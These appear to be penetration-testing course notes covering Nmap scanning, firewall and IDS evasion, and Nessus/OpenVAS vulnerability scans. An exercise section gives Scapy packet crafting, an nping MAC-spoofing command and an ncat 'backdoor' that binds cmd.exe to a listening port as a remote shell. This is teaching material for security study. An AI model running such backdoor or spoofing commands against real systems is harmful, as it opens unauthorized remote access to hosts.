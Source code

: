 ### Lesson 2 Summary

* In this lesson we learned about:
  * Preparing custom packets for scanning
  * Using Nmap scans to target ports, detect services, versions of operating systems and applications on a remote host and interpret the results
  * Using available scripts to automate networking tasks (such as identifying vulnerabilities, testing controls and detecting backdoors)
  * Using Nmap utilities (ncat, ndiff or nping) to analyze a network, generate network packets, connect to other hosts, or compare existing scans
  * Performing suitable Nmap scans designed to evade the basic rules of firewalls or Intrusion detection systems
  * Completing a vulnerability scan using Nessus and OpenVAS
  * Assessing the vulnerability risks to a system and assemble results for inclusion in reporting

___

## Exercise - Module 2, Lesson 2 – Discovery Scanning and Enumerating Hosts

___

* Scapy  

```scapy
packet = IP()/TCP()
packet[IP].dst = ["192.168.229.165","192.168.229.14","192.168.229.13","192.168.229.80","192.168.229.89","192.168.229.223"]
packet[TCP].dport = 135,445,80
```

* NCAT
  * Simple HTTP Server  
  `nc -lk -p 8080 --sh-exec "echo -e 'HTTP/1.1 200 OK\r\n'; cat index.html"`  
  * Backdoor
    * Listener -  `ncat -l -p 8080 -e cmd.exe`
    * Server -  `ncat <Listener ip_addr> 8080`
* Nping
  * Spoof MAC  
`nping --arp --arp-sender-mac 11:22:33:44:55:66 192.168.229.89, 192.168.22913`
* Install NSE Scripts
  * Download and copy script to `/usr/share/nmap/
scripts` or `/usr/local/share/nmap/scripts`
  * Copy any libraries (`.lua files`) to the `nselib folder`

___

## Exercise - Module 2, Lesson 2 – Advanced Scanning and Evasion Techniques

\<Intentionally Left Blank>
___
___
